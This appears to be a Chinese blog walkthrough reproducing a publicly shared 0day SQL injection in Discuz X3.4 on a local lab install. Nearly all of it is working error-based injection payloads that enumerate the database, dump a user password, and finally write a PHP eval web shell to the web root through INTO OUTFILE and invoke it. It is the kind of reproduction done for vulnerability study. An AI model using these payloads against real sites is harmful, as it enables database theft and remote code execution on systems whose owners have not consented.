圈子某位大佬公布的0day，拿来刷一刷,漏洞分析请移步大佬文章。
大佬链接
0x01 环境准备
1、首先去码云下载最新版本的discuz（DiscuzX 3.4 R20191201）。

2、将upaod放置到网站目录下，访问安装目录安装即可。
0x02 漏洞复现
点击站长–UCenter设置

点击最下面的提交进行抓包

判断列数
1 | 1' order by 1 //返回正确 |
查询当前用户
1 | 1' and updatexml(1,concat(0x7e,(SELECT user())),1)-- a |

查询版本
1 | 1' and updatexml(1,concat(0x7e,(SELECT version())),1)-- a |

查询数据库
1 | 1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1)),1)-- a //mysql |


可以发现，共有6个库
查询数据表
这里随便找了一个库测试的，test库只有一个表。
1 | 1' and updatexml(1,concat(0x7e,(select TABLE_NAME from information_schema.tables where TABLE_SCHEMA='test' limit 0,1)),1)-- a //users |

1 | 1' and updatexml(1,concat(0x7e,(select group_concat(TABLE_NAME) from information_schema.tables where TABLE_SCHEMA='mysql')),1)-- a |

查询字段
1 | 1' and updatexml(1,concat(0x7e,(select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='users')),1)-- a |

这个没显示全
1 | 1' and updatexml(1,concat(0x7e,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1)),1)-- a //user |

1 | 1' and updatexml(1,concat(0x7e,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 5,1)),1)-- a //password |

爆字段值
1 | 1' and updatexml(1,concat(0x7e,(select password from test.users limit 1,1)),1)-- a |
成功搞到密码test123

写入文件
Payload：
1 | 1' into outfile 'c:\\wamp64\\tmp\\1.txt' -- a |

emmmm….
The MySQL server is running with the –secure-file-priv option so it cannot execute this statement
查看一下secure-file-priv配置
1 | show variables like '%secure%'; |

secure_file_priv的值为null，那么secure_file_priv这里都有什么设置呢
- secure_file_priv为null 表示不允许导入导出
- secure_file_priv指定文件夹时，表示mysql的导入导出只能发生在指定的文件夹
- secure_file_priv没有设置时，则表示没有任何限制
修改mysql.ini文件，加入如下语句
1 | secure_file_priv='' |

重启mysql服务
1 | 1' union select '<?php eval($_GET[1])?>' into outfile 'C:\\phpstudy_pro\\WWW\\discuz\\1.php' -- a |

http://192.168.91.149/discuz/1.php?1=phpinfo();

0x03 结束
吐槽一下，手注真麻烦，还是sqlmap好玩。